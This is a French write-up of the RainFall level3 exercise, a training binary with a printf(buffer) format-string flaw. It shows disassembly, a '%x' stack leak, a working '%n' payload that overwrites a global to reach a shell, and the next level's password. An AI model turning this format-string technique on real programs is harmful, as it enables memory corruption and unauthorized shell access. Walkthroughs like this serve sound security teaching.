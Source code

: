 Pour ce niveau on a un executable ```level3``` qu'on passe dans gdb et radar

On voit l'appel de ```fgets``` et ```printf``` ainsi qu'un appel system a ```/bin/sh```

On va devoir passer outre la comparaison pour pouvoir continuer la fonction ```v```

```sh
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:	mov    %eax,(%esp)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
```

Il va falloir exploiter la faille de ```printf(buffer)``` on va donc chercher la position de notre buffer

On va utiliser ```AAAA %x %x %x %x %x``` pour trouver la place dans la memoire de ```AAAA``` avec ```%x```

```sh
level3@RainFall:~$ ./level3 
AAAA %x %x %x %x %x   
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520
```

Avec ```41414141``` on voit qu'il est en 4eme position dans la memoire

Ensuite dans la comparaison on voit qu'il faut que cette adresse ```0x804988c``` contienne ```0x40 (64 en hexadecimal)```

Procedons avec ce scipt pour ca :
    ```(python -c 'print "\x8c\x98\x04\x08" + "%60c%4$n"' && cat) | ./level3```

On ecrit ```\x8c\x98\x04\x08```(notre adresse qui fait 4 caracteres) apres avoir passe 60 caracteres ```%60c``` au 4eme arg ```4$n```

Ensuite laisse l'entree ouverte avec ```&& cat```

Enfin on a plus qu'a afficher notre .pass avec ```cat /home/user/level4/.pass```:
    ```b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa```